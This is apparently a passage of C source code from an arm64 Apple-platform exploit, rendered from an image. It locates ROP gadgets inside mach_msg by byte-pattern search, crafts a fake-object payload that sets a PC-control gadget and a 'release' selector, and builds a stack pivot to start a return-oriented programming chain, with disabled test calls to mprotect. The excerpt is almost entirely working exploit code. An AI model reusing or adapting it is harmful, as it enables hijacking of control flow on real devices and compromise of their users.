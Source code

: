 ```c
    mach_msg_gadget = mem_search((void*)mach_msg, "\xe1\x03\x1a\xaa\xe2\x03\x19\xaa\xe3\x03\x16\xaa\xe4\x03\x15\xaa\xe5\x03\x14\xaa",20);
#if 0 // the epilogue of mach_msg
    0x1f6e01428 <+200>: ldp    x29, x30, [sp, #0x50]
    0x1f6e0142c <+204>: ldp    x20, x19, [sp, #0x40]
    0x1f6e01430 <+208>: ldp    x22, x21, [sp, #0x30]
    0x1f6e01434 <+212>: ldp    x24, x23, [sp, #0x20]
    0x1f6e01438 <+216>: ldp    x26, x25, [sp, #0x10]
    0x1f6e0143c <+220>: ldp    x28, x27, [sp], #0x60
    0x1f6e01440 <+224>: ret
#endif
    restore_registers = mem_search(mach_msg,"\xfd\x7b\x45\xa9\xf4\x4f\x44\xa9\xf6\x57\x43\xa9\xf8\x5f\x42\xa9\xfa\x67\x41\xa9\xfc\x6f\xc6\xa8\xc0\x03\x5f\xd6",28);
    ret_sp = restore_registers + 24;

#if 0
    // gadgets
    printf("x0 0x%llx\n",control_x0);
    printf("blr_x3 0x%llx\n",br_x3);
    printf("stack_pivot 0x%llx\n",stack_pivot);
    printf("mach_msg_gadget 0x%llx\n",mach_msg_gadget);
    printf("restore_registers = 0x%llx\n",restore_registers);
    printf("br_x6 = 0x%llx\n",br_x6);
#endif

    vals = (uint64_t *)&main_payload[0];
    vals[0] = 0x11111111;
    vals[1] = 0x22222222;

    // LDP  X10, X11, [X16,#0x10]
    //vals[2] = payload_address + 0x100;
    vals[2] = payload_address + 0x100;
    vals[3] = 0;    // mask: put it to zero


    vals = (uint64_t *)&main_payload[0x38];
    vals[0] = 0;            //ldr    x16, [x16, #0x38]

    vals = (uint64_t *)&main_payload[0x100];
    // jump and make X0 -> target_addr
    vals[0] = control_x0;                           //  PC Control
    vals[1] = (uint64_t)sel;                  //  SEL "release"
    stack_ptr = 0x118800300;

    /* =================== Start of our ROP payload ===================*/

    rop_offset = 0x200;
    // this must be update whenever the stack pointer gets changed
    stack_offset = 0x100;
    stack_ptr = payload_address + rop_offset + stack_offset;

    // SP = 0x118800300, after this call, we'll have FP,SP and LR under control
    rop_make_stack_pivot(stack_ptr,restore_registers);

#if 0
    // check out if our ROP chain is working as expected
    rop_u_call(mprotect,0x11,0x22,0x33,0x44,0x55,0x66,restore_registers);
    rop_u_call(mprotect,0x111,0x222,0x333,0x444,0x555,0x666,restore_registers);
    rop_u_call(0xdeadb00b,0x1111,0x2222,0x3333,0x4444,0x5555,0x6666,0x40404040);
#endif

    struct hp_msg msg = {0};

```